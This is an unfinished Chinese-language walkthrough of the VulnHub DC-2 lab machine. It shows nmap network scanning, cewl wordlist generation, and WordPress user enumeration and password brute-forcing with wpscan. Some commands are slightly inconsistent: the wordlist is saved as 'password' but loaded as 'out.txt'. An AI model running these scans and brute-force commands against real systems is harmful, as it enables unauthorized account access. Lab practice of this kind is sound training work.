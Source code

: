 # DC 2

## 环境准备

- 镜像地址：https://www.vulnhub.com/entry/dc-2,311/

## 知识点

## 信息收集

```bash
ifconfig all # 这里是因为本地局域网
nmap -sP 192.168.2.0/24 # IP探测 扫描本地C段的网络端口信息
# 192.168.2.16
nmap -A -p- -T4 192.168.2.16
```

![](./img/vulnhub-dc2-1.png)

### 0x01-flag1

访问页面会被重定向到 http://dc-2，需要在hosts文件添加解析

```
windows添加
C:\Windows\System32\drivers\etc\host
在下面添加一条
192.168.2.16 dc-2

linux添加
vim /ect/hosts
192.168.2.16 dc-2
```

![](./img/vulnhub-dc2-2.png)

可以看到flag1，提示用cewl，一个用于抓取网站信息用于生成密码的工具，kali自带cewl
### 0x02-flag2

获取password密码表
```bash
cewl http://dc-2 > password
```

网站是WP，用wpscan工具进行爆破(kali自带)
```bash
wpscan --update # 需要先更新
wpscan --url http://dc-2 --enumerate u # 用户信息枚举
```

![](./img/vulnhub-dc2-3.png)

可以看到爆出三个用户，使用cewl爬取的密码文件进行爆破账号密码

```bash
wpscan --url http://dc-2 --passwords out.txt
```
## 漏洞利用

## 参考文章
- https://github.com/ffffffff0x/1earn/blob/004fbc731d7ce8004b9c2a38613d39f71cd8cb6e/1earn/Security/%E5%AE%89%E5%85%A8%E8%B5%84%E6%BA%90/%E9%9D%B6%E6%9C%BA/VulnHub/DC/DC2-WalkThrough.md